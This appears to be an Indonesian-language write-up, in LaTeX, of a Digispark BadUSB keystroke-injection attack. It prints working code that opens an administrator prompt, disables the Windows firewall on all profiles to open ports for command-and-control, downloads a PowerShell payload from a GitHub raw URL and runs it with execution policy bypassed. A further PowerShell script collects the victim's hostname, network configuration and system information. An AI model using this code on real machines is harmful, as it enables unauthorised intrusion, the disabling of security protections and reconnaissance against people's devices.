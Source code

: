 Pada potongan program ini, perangkat Digispark akan memulai mengaktifkan keyboard yang lalu mengakses command prompt sebagai administrator. 

\begin{verbatim}
// Disable Windows Firewall for all profiles (domain, private, public)
  typeString("Set-NetFirewallProfile -Profile 
  Domain,Public,Private -Enabled False");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(5000);
\end{verbatim}

Pada bagian ini, Digispark akan melakukan keyboard stream dalam command prompt dengan akses administrator untuk menonaktifkan firewall pada semua user dan profile yang ada dalam perangkat korban. Hal ini dilakukan untuk membuka port pada perangkat tersebut agar dapat dimanfaatkat oleh serangan C2.

\begin{verbatim}
// Payload: This command downloads and executes a remote script
  DigiKeyboard.print("Invoke-WebRequest -Uri 
  'https://raw.githubusercontent.com/kenawhy/teleportScroll/ref
  s/heads/main/payload.ps1' -OutFile 
  'C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
  DigiKeyboard.print("Start-Process powershell -ArgumentList '-
  ExecutionPolicy Bypass -File 
  C:\\Users\\Public\\payload.ps1'");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  delay(2000);
\end{verbatim}

Bagian ini akan mendownload payload yang sudah dibuat dalam github penulis dan mengeksekusi payload tersebut.

\subsection{payload}
Payload digunakan oleh penulis untuk menanamkan script pada perangkat korban. Tujuan utama dari payload ini adalah mengurangi load yang ada pada Digispark dan juga menanamkan script persistent.

\begin{verbatim}
# Write a message to the local system as a log
Write-Output "Executing C2 tasks on $(hostname)" | Out-File -
FilePath "C:\Users\Public\c2_log.txt" -Append

# Task 1: Gather system information
$hostname = (hostname)
$ipconfig = (ipconfig /all | Out-String)
$systeminfo = (systeminfo | Out-String)

# Combine information into one variable and save it to a file
$info = "Hostname: $hostname`nIP Config:`n$ipconfig`nSystem 
Info:`n$systeminfo"
$info | Out-File -FilePath "C:\Users\Public\sysinfo.txt"

\end{verbatim}

